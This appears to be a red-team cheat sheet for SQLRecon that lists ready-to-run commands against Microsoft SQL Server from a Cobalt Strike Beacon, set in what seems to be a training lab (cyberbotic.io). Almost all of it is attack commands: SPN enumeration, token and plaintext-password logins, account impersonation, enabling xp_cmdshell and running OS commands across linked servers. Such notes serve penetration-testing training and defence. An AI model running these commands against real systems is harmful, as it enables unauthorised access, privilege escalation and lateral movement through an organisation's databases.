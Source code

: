 [GitHub Link](https://github.com/skahwah/SQLRecon)


## Enumerate Servers via SPNs

---

Enumerates SQL servers by SPNs.

```
C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /enum:sqlspns
```


##  Enumerate SQL Instance

---

```
C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /auth:wintoken /host:sql-2.dev.cyberbotic.io /module:info
```

The `/auth:wintoken` option allows SQLRecon to use the access token of the Beacon.


## Enumerate Current Roles

---

```
C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:whoami
```

The `/auth:wintoken` option allows SQLRecon to use the access token of the Beacon.


## Gaining Access to SQL Instance

---

```
C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:windomain /d:dev.cyberbotic.io /u:mssql_svc /p:Cyberb0tic /h:sql-2.dev.cyberbotic.io,1433 /m:whoami
```


## Query SQL Database

---

```
C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:query /c:"select @@servername"
```

### Query Linked Servers

```
C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:lquery /l:sql-1.cyberbotic.io /c:"select @@servername"
```


## Impersonate Accounts on an Instance

---

```
C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:impersonate
```

### Run Modules

```
C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:iwhoami /i:DEV\mssql_svc
```

### xp_cmdshell Interaction

```
C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:ienablexp /i:DEV\mssql_svc
```

```
C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:ixpcmd /i:DEV\mssql_svc /c:ipconfig
```

```
C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:lxpcmd /i:DEV\mssql_svc /l:sql-1.cyberbotic.io /c:ipconfig
```

## Enumerate Links for an Instance

```
C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:links
```

## Enumerate Linked Servers for More Links

```
C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:llinks /l:sql-1.cyberbotic.io
```

## Enumerate Linked Servers

```
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:lwhoami /l:sql-1.cyberbotic.io
```